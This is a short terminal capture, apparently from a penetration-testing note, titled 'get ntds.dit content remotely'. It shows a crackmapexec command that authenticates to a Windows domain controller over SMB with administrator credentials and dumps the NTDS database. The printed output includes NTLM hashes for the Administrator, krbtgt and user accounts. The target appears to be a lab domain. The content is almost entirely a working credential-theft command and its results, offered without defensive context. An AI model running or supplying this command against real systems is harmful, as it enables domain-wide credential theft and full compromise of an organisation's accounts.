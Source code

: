 get ntds.dit content remotely

	┌──(kali㉿kali)-[~]
	└─$ crackmapexec smb 192.168.200.100 -u administrator -p Pass123! -d valhalla.local --ntds                                                                 2 ⨯
	SMB         192.168.200.100 445    ODIN             [*] Windows Server 2012 R2 Standard Evaluation 9600 x64 (name:ODIN) (domain:valhalla.local) (signing:True) (SMBv1:True)
	SMB         192.168.200.100 445    ODIN             [+] valhalla.local\administrator:Pass123! (Pwn3d!)
	SMB         192.168.200.100 445    ODIN             [+] Dumping the NTDS, this could take a while so go grab a redbull...
	SMB         192.168.200.100 445    ODIN             Administrator:500:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::
	SMB         192.168.200.100 445    ODIN             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
	SMB         192.168.200.100 445    ODIN             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c2d3b9268608fab2b14a8c78c36316aa:::
	SMB         192.168.200.100 445    ODIN             danj:1105:aad3b435b51404eeaad3b435b51404ee:00ddebfed240893a2412f62a23462221:::
	SMB         192.168.200.100 445    ODIN             adamb:1106:aad3b435b51404eeaad3b435b51404ee:00ddebfed240893a2412f62a23462221:::
	SMB         192.168.200.100 445    ODIN             alans:1107:aad3b435b51404eeaad3b435b51404ee:00ddebfed240893a2412f62a23462221:::
	SMB         192.168.200.100 445    ODIN             PC-WIN10$:des-cbc-md5:d5b5b9b65df43294
	SMB         192.168.200.100 445    ODIN             [+] Dumped 214 NTDS hashes to /home/kali/.cme/logs/ODIN_192.168.200.100_2021-09-22_181932.ntds of which 53 were added to the database
